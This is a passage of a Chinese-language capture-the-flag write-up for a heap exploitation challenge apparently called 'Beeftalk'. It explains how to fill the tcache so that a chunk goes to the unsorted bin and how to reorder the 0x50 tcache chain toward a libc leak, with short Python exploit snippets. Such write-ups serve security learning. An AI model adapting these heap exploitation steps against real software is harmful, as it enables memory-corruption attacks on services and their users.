 這題跟前幾題不一樣的地方是沒辦法在簡單的把 Chunk 直接分配超過 tcache 管理的大小範圍而直接把 Chunk 送到 Unsortbin 中，但其實只要 Allocate 0x80 大小的 Chunk 8 次，塞滿 Tcache 0x90 Chain 後再一次釋放就可以把最後一塊 Memory Chunk 送進 Unsortbin 中了：

```python
# Place Blocks in Unsorted Bin
# Create 8 Users
for i in range(8):
    r_tokens.append(signup(r, b'A'*0x80, b"PWN", b"SEC"))

# Login and Delete
# This Part should be reverse, cause consolidation problem
for i in range(8):
    login(r, r_tokens[7-i])
    delete_account(r, r_tokens[7-i])
```

下一步是要如何取得 Libc 的值。因為 `desc` 和 `User` struct 本身都是 `0x50` 大小的 Chunk，所以在 Free 完後 Tacache Chain 中每個 `User` 中間會卡一個 `desc` 的 Block 而沒辦法透過寫入 unsortbin chunk 的位置後讀取：

![Beeftalk 0x50 Tcache Chain](./resources/Beeftalk_0x50_chain.png)

這時只要在簡單 Allocate 一個 User，讓原本 `desc` 那塊記憶體變成 `User`，而原本 `User` 的記憶體區塊變成 `desc`，等等再釋放一次後，我們就成功改動 0x50 Tcache Chain 的順序了：

```python
# Change Tcache Chain Chunk Sequence
r_tokens[0] = signup(r, b'A'*0x80, b"PWN", b"SEC")
login(r, r_tokens[0])
delete_account(r, r_tokens[0])
```
